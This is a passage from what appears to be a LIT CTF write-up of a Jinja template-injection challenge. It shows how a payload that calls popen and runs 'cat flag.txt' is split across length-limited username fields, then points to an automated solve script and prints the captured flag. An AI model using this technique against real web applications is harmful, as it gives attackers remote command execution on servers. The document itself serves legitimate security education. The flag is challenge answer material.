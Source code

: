 `{%set e=d.popen%}`
- `username11 = {%set e=d['`
- `message11 = dummy`
- `username12 = popen`
- `message12 = dummy`
- `username13 = '[11:16]]%}`
- `message13 = dummy`

`{%set f='cat flag.txt'%}`
- `username14 = {%set f='`
- `message14 = dummy`
- `username15 = cat flag.txt`
- `message15 = dummy`
- `username16 = '[11:23]%}`
- `message16 = dummy`

`{%set g=e(f)%}`
- `username17 = {%set g=e([f,'`
- `message17 = dummy`
- `username18 = '][0])%}`
- `message18 = dummy`

`{%set h=g.read%}`
- `username19 = {%set h=g['`
- `message19 = dummy`
- `username20 = read`
- `message20 = dummy`
- `username21 = '[11:15]]%}`
- `message21 = dummy`

`{{h()}}`
- `username22 = {{[h,'`
- `message22 = dummy`
- `username23 = '][0]()}}`
- `message23 = dummy`



which is functionally equivalent to our intended payload, as the injected `<br>` and extra characters are ignored by the Python slice or the array technique.

We automated this process in `solution/solve.py`. To run the exploit against the remote instance provided by LIT CTF:

```sh
python3 solve.py
```

If successful, the script will output the flag:

```sh
Username set successfully.
Message sent successfully.
...
Username set successfully.
Message sent successfully.
LITCTF{c4n7_y0u_b3l13v3_us3rn4m35_c0uld_b3_1000_ch4r5_10ng_b3f0r3??}
```


